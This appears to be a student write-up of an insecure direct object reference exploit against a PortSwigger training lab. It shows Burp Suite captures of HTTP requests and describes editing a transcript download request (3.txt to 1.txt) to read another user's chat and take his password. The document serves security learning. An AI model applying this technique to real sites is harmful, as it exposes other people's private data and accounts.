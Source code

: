 Kindly go through the video below for the demonstration of our take on exploiting the chosen vulnerability: IDOR

DEMO VIDEO: https://drive.google.com/drive/folders/1fRn__sgbEjkxFmi94SlCWaPlWWOESOKV?usp=sharing

(Since the file is greater than 10MB, a link to the demo video is attached)

In this demo video, we will be able to see how we have implemented the IDOR vulnerability using the Portswigger lab. Initially, we are to bypass the authentication of a user but we do not have his login credentials. However, we do know that his username is Carlos. In order to extract this information, we click on the Live Chat option and start chatting. 

Simultaneoulsy, we turn on the proxy and connect to Burpsuite (Instructions on how to install Burpsuite are listed on the BurpSuite Installation file from the main menu). Once we are connected to Burpsuite, we turn on the Intercept and capture the live data from the website and monitor the traffic accordingly. 

Next, we converse a bit with the automated agent on the site and click on "View Transcript". This as well is captured on BurpSuite. The following can be seen on the Burpsuite tab before the chat is initiated:

```
GET /chat HTTP/1.1

Host: ac3c1f491e41921ac04132ce00c100ed.web-security-academy.net

Cookie: session=z4OEDOySGTju5qpD5KcmIibmTUlzBaMT

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: https://ac3c1f491e41921ac04132ce00c100ed.web-security-academy.net/

Upgrade-Insecure-Requests: 1

Te: trailers

Connection: close
```

Once the Live Chat is initiated, the following is captured:

```

GET /academyLabHeader HTTP/1.1

Host: ac3c1f491e41921ac04132ce00c100ed.web-security-academy.net

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: /

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Sec-WebSocket-Version: 13

Origin: https://ac3c1f491e41921ac04132ce00c100ed.web-security-academy.net

Sec-WebSocket-Key: CXXIpKR8C4joiI8aLp8w9A==

Connection: keep-alive, Upgrade

Cookie: session=z4OEDOySGTju5qpD5KcmIibmTUlzBaMT

Pragma: no-cache

Cache-Control: no-cache

Upgrade: websocket
```

On analysis, we can see that a simple GET method is used to capture data and whatever is entered in the field is simply returned. This is where our exploitation comes to light. On clicking Forward, the requests are passed and we move to the next steps. Now, to get hold of the password of the user, we need to understand that at some point, the automated agent has confirmed with the user that the password is so and so. For us to know what this is, we simply change the following:

```
From: GET /download-transcript/3.txt HTTP/1.1
```
```
To: GET /download-transcript/1.txt HTTP/1.1
```

Once these changes are made, we simply have to click on the Forward button to bypass the requests and finally reach the point where the transcript is available for download. Post downloading of the new "1.txt" file, we open it to find the "confidential" conversation between the two to find out what Carlos' password is. 

The extracted password is simply copy pasted into the login page and voila, we have now exlpoited the vulnerability without much work. 

The patchwork for this has been demonstrated in the Patchwork.md file. 
